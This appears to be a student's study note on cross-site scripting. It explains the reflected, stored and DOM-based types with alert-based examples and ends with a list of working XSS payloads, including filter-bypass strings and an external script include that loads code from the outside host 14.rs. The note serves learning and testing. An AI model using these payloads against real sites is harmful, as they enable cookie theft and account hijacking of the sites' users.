 ```yaml
---
tags:
  - web
---
```

[HackTricks wiki] (https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
[Practical CTF wiki] (https://book.jorianwoltjer.com/web/cross-site-scripting-xss)

> Cross-site scripting (XSS) is a vulnerability found in web applications. It is a code injection attack where the attacker injects malicious code into web pages which are viewed by other users. It occurs when the user input is not properly filtered.XSS effects differ in a scope from a petty nuisance to momentous security risk, based on the sensitivity of the data handled by the target site and the quality of any security mitigation implemented by the site's admin.

### Impact
The impact of XSS is boundless. A successful XSS may lead to :
- Account hijacking
- Credential stealing
- Leakage of sensitive data
- Display text that seems to come from the site owners,(Like phishing)
- Log keystrokes
- Redirect to another site
- Gain access to camera/microphone if the victim has granted access to that site.

### Types of XSS
* [[#Reflected XSS]]
* [[#Stored XSS]]
* [[#DOM-based XSS]]

#### Reflected XSS
This is the most common type of cross-site scripting vulneribility.Here the payload is a part of HTTP request which should give the HTTP response containing the payload embedded in the page. In this type of attack, the attacker has to deliver the payload to the victim.

The attacker uses E-mails and other social engineering methods to get the victim click on the link which contains the payload within the link.

**Example**
Let's see a web page which reflects the input given for id parameter into the web page
Here the attacker can successfully implement reflected XSS by changing the id parameter to malicious script

Let's try to pop-up the cookies of the user by injecting a script
	`localhost/xss.php?id=<script>alert(document.cooike)</script>`
This gives us a pop-up containing cookies in the page. 
![[xss_reflected.png]]
#### Stored XSS
This the most dangerous cross-site scripting attack. The payload injected by the attacker is permenently stored in the web page and whoever visits the page will end up as a vicim of this attack.

The most common illustration of this type of XSS is a web page containing commentinig functionality. The attacker comments a malicious script which will be stored in the web page, and when other user who visits this page will be effected by this payload.

**Example**
Let's see a web page which displays the status given by users.

![[xss_stored_1.png]]

Now the attacker can give the status as a payload so that it will be stored in the web application and will effect other user

Let's try to pop-up the alert with the event handler "onerror"

	<img src="" onerror="alert(1)">

![[xss_stored_2.png]]

On sharing this status the payload will be stored in the application and whoever visits the page gets a pop-up.

![[xss_stored_3.png]]

#### DOM-based XSS
DOM-based XSS doesn't develop in the HTML part rather develop in the DOM (Document Object Model). i.e unlike reflected and stored XSS attacks where you can see the payload reflected in the web application, DOM-based the source code of the web page remains exactly the same. mostly all the HTML documents have a related DOM, containing the objects characterizing the document properties from the perspective of the browser. Whenever a script is executed client-side, the browser equips the code with the DOM of the web page where the script executes, thus, offering admittance to numerous properties of the web page and their values, populated by the browser from its context.

**Example**
Consider the following page http://example.com/xss.html containing the code
```html
<script>
    document.write("<b>Current URL</b> : " + document.baseURI);
</script>
```
If you send an HTTP request to the web page like this
	`http://example.com/xss.html#<script>alert(1)</script>`
straightforward enough that your JavaScript code will get executed, as the web page is writing whatsoever you typed in the URL to the page with document. write function. If you glance at the source of the page, you won't see \ because it's all proceeding in the DOM and done by the executed JavaScript code.

##### Some payloads
**Basic payload**
```html
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
<img src=x onerror=alert('XSS');>
<svg
    onload=alert(1)>
<body onload=alert(/XSS/.source)>
<textarea autofocus onfocus=alert(1)>
```

**External payload**
```html
<script src=14.rs>
```

**Bypass filter**
```html
<sCrIpT>alert(1)</ScRipt>
<script x>alert('XSS')<script y>
eval('ale'+'rt(0)');
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
```
